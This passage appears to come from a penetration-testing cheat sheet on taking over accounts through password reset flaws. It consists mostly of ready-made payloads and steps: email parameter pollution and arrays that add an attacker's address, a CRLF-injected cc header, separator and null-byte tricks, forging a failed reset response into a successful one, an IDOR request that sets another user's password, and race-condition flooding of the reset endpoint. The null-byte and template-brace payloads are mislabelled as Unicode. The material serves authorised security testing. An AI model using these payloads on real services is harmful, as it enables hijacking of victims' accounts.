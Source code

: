 
#### **2. Manipulating Email Parameters**
- **Parameter Pollution**:  
  ```plaintext
  email=victim@mail.com&email=hacker@mail.com
  ```
- **Array of Emails**:  
  ```json
  {"email":["victim@mail.com","hacker@mail.com"]}
  ```
- **Carbon Copy (CC/BCC)**:  
  ```plaintext
  email=victim@mail.com%0A%0Dcc:hacker@mail.com
  ```
- **Separators**:  
  ```plaintext
  email=victim@mail.com,hacker@mail.com
  email=victim@mail.com|hacker@mail.com
  ```
- **No Domain/TLD**:  
  ```plaintext
  email=victim
  email=victim@xyz
  ```
- **Unicode Characters**:  
  ```plaintext
  email=victim@mail.com%00
  email=victim@mail.com{{}}
  ```

---

#### **3. Response Manipulation**
- **ATO via Response Manipulation**:  
  1. Capture a successful password reset response.  
  2. Intercept a failed reset attempt.  
  3. Replace the error response with the successful one.  
  - Example: Change `{"status":false}` to `{"status":true}`.  

---

#### **4. IDOR in Password Reset**
- **Exploit User ID Leakage**:  
  - Replace the user ID in the reset request with another user’s ID.  
  - Example:  
    ```json
    {"user_id":"attacker_id","new_password":"hacked123"}
    ```

---

#### **5. Race Conditions**
- **Exploit Time-Sensitive Vulnerabilities**:  
  - Submit multiple reset requests simultaneously.  
  - Example: Use Burp Intruder to flood the reset endpoint.  
  - Reference: [PortSwigger Lab](https://portswigger.net/web-security/race-conditions).  

---